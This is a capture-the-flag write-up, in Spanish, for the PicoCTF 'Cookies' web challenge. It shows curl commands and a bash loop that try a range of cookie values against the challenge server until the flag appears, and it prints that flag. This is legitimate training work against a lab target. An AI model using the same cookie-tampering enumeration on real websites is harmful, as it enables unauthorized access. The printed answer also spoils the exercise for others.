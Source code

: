 ## Objetivo 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
## Solución  
```bash
kali@KaliEND:~/Downloads/PicoCTF$ curl http://mercury.picoctf.net:17781/check -H "Cookie: name=1"  
<!DOCTYPE html>  
<html lang="en">  
  
<head>  
   <title>Cookies</title>  
  
  
   <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">  
  
   <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">  
  
   <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>  
  
   <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>  
</head>  
  
<body>  
  
   <div class="container">  
       <div class="header">  
           <nav>  
               <ul class="nav nav-pills pull-right">  
                   <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>  
                   </li>  
               </ul>  
           </nav>  
           <h3 class="text-muted">Cookies</h3>  
       </div>  
          
       <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->  
          
          
       <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">  
         <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></but  
ton>  
         <!-- <strong>Title</strong> --> That is a cookie! Not very special though...  
           </div>  
        
        
        
       <div class="jumbotron">  
           <p class="lead"></p>  
           <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>  
       </div>  
  
  
       <footer class="footer">  
           <p>&copy; PicoCTF</p>  
       </footer>  
  
   </div>  
   <script>  
   $(document).ready(function(){  
       $(".close").click(function(){  
           $("myAlert").alert("close");  
       });  
   });  
   </script>  
</body>  
  
</html>

kali@KaliEND:~/Downloads/Pifor i in {0..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done |  
grep picoCTF  
           <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>  
kali@KaliEND:~/Downloads/PicoCTF$

```
## Notas Adicionales 
en el sitio web hay un campo para ingresar cookies, y si no es la cookie favorita se genera una cookie con un valor -1, si seguimos jugando con la cookie camiando los valores eventualmente encontrariamos la cookie, pero en este caso usamos la consola de comandos para automatizar el proceso usando un ciclo for desde 1 hasta 20 y ademas un grep para filtrar solamente los resultados deseados.
### Referencias

